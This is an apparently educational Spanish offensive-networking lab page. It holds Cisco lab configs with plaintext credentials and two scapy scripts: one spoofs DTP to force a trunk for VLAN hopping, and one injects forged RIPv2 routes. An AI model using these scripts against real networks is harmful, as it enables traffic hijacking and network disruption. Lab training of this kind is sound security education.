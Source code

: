 ```yaml
---
theme: "just-the-docs"
title: "LAB Ofensivo: Escenario 01"
layout: default
nav_order: 5
parent: "Lab Ofensivo" 
---
```

# LAB Ofensivo: Escenario 01
## Topologia a configurar
![Escenario 01](Escenario01.png)
## Configuracion equipos de comunicaciones
### RTA
```
hostname RTA
!
username dpacheco password lesand2024
enable secret 2024
line vty 0 15
 login local
!
int g0/1
 ip add 192.168.3.1 255.255.255.0
 no shut
!
router rip
 version 2
 network 192.168.3.0
 network 192.168.4.0
 !
 interface lo1
  ip add 192.168.4.10 255.255.255.0
!
ip dhcp excluded-address 192.168.1.1 192.168.1.5
ip dhcp excluded-address 192.168.0.1 192.168.0.5
!
ip dhcp pool V10
 network 192.168.0.0 255.255.255.0
 default-router 192.168.0.1
!
ip dhcp pool V20
 network 192.168.1.0 255.255.255.0
 default-router 192.168.1.1
```
### RTB
```
hostname RTB
!
username dpacheco password lesand2024
enable secret 2024
!
line vty 0 15
 login local
!
int g0/1
 ip add 192.168.3.2 255.255.255.0
 no shut
!
int g0/0
 no shut
int g0/0.10
 encapsulation dot1q 10
 ip add 192.168.0.1 255.255.255.0
int g0/0.20
 encapsulation dot1q 20
 ip add 192.168.1.1 255.255.255.0
!
router rip
 version 2
 network 192.168.3.0
 network 192.168.0.0
 network 192.168.1.0
 !
int g0/0.10
 ip helper-address 192.168.4.10
int g0/0.20
 ip helper-address 192.168.4.10
```
### SW1
```
hostname SW1
vlan 10
vlan 20
int Gi0/0
 switchport trunk encapsulation dot1q
 switchport mode trunk
int Gi1/1
 switchport mode access
 switchport access vlan 10
int Gi1/2
 switchport mode access
 switchport access vlan 20
```

## Reconocimiento usando Llaitun
Avtivamos el ambiente virtual y ejecutamos Llaitun como root
```
cd Desktop/tools                                                         ─╯
source ENV-LLAITUN/bin/activate   
sudo $(which python) Llaitun.py --live 
```

### Ejemplo Script para DTP (scapy Modo Libreria)
```
from scapy.all import *
load_contrib("dtp")
ASD = sniff(filter="ether[20:2] == 0x2004",count=1)    

ASD[0].src="00:00:00:13:54:2d"
ASD[0][DTP][DTPStatus].status='\x03'
#ASD[0][DTP][DTPType].dtptype='E'
sendp(ASD[0])
```
### Ejemplo Script para RIPv2 (scapy Modo Interactivo)
```
sendp(Ether(dst="01:00:5e:00:00:09", src="aa:bb:cc:00:11:22", type=0x8100)/Dot1Q(prio=0, id=0, vlan=20, type=0x0800)/IP(tos=192,ttl=2,proto=17,src="192.168.1.10",dst="224.0.0.9")/UDP(sport=520, dport=520)/RIP(cmd=2,version=2)/RIPEntry(AF=2, RouteTag=1354, addr="8.8.8.8", mask="255.255.255.255", nextHop="0.0.0.0", metric=1))
```
